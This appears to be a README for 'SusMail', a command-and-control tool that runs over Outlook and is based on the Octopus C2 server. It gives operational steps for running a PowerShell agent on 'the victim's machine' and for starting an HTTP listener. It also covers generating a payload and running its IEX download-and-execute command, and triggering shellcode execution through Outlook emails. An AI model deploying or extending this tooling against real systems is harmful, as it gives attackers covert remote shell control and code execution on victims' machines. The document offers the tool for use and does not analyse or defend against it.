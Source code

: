 C2 over Microsofts' Outlook based on Octopus as backend.

# What is Octopus ? ![](https://img.shields.io/badge/python-3-yellow)
  Octopus is an open source, pre-operation C2 server based on python which can control an Octopus powershell agent through HTTP/S.

'SusMail' leverages the Outlook Application Interface (COM Interface) to execute shellcode on a system based on a specific trigger subject line. By utilizing the Microsoft.Office.Interop.Outlook namespace, developers can represent the entire Outlook Application. 



# About the PowerShell agent 
* This is gonna ran on the victim's machine(inside the internal organization):
* just run the script: ```./AllInOne.ps1```




# Requirements & Pre-requisites & installation

1. Machine that will hold the backend based on Octupus(python) - You can install all  Octopus' requirements via :

```pip install -r requirements.txt```

You have to change the next details before you start:
* change the $username and $password ```./agents/agent.ps1.oct ```
* erasing all the emails from the inbox
* permit email account communication with low security apps
if there any problem with it:
https://support.google.com/mail/answer/7126229?visit_id=637650667152983230-1024873670&rd=2#cantsignin&zippy=%2C%D7%9C%D7%90-%D7%94%D7%A6%D7%9C%D7%97%D7%AA%D7%99-%D7%9C%D7%94%D7%99%D7%9B%D7%A0%D7%A1-%D7%9C%D7%AA%D7%95%D7%9B%D7%A0%D7%AA-%D7%94%D7%90%D7%99%D7%9E%D7%99%D7%99%D7%9C-%D7%A9%D7%9C%D7%99


`./octopus.py`

You will by greeted with the following once you run it :

```
┌─[askar@hackbook]─[/opt/redteaming/Octopus]
└──╼ $python3 octopus.py



      ___           ___                       ___           ___         ___           ___
     /  /\         /  /\          ___        /  /\         /  /\       /__/\         /  /\
    /  /::\       /  /:/         /  /\      /  /::\       /  /::\      \  \:\       /  /:/_
   /  /:/\:\     /  /:/         /  /:/     /  /:/\:\     /  /:/\:\      \  \:\     /  /:/ /\
  /  /:/  \:\   /  /:/  ___    /  /:/     /  /:/  \:\   /  /:/~/:/  ___  \  \:\   /  /:/ /::\
 /__/:/ \__\:\ /__/:/  /  /\  /  /::\    /__/:/ \__\:\ /__/:/ /:/  /__/\  \__\:\ /__/:/ /:/\:\
 \  \:\ /  /:/ \  \:\ /  /:/ /__/:/\:\   \  \:\ /  /:/ \  \:\/:/   \  \:\ /  /:/ \  \:\/:/~/:/
  \  \:\  /:/   \  \:\  /:/  \__\/  \:\   \  \:\  /:/   \  \::/     \  \:\  /:/   \  \::/ /:/
   \  \:\/:/     \  \:\/:/        \  \:\   \  \:\/:/     \  \:\      \  \:\/:/     \__\/ /:/
    \  \::/       \  \::/          \__\/    \  \::/       \  \:\      \  \::/        /__/:/
     \__\/         \__\/                     \__\/         \__\/       \__\/         \__\/




 Octopus C2 | Control your shells


Octopus >>

```
# Usage

* > listen_http 0.0.0.0 8080 <your_domain> 10 comments1.php <listener_name>
* > generate_powershell <listener_name>


*Now copy the first IEX and run it from machine that has access to your gmail account


> (after connection established): 
> interact 1
* And you will able to run os PS commands




# Credits
based on Octopus Project, thanks for * [mhaskar](https://github.com/mhaskar/Octopus)



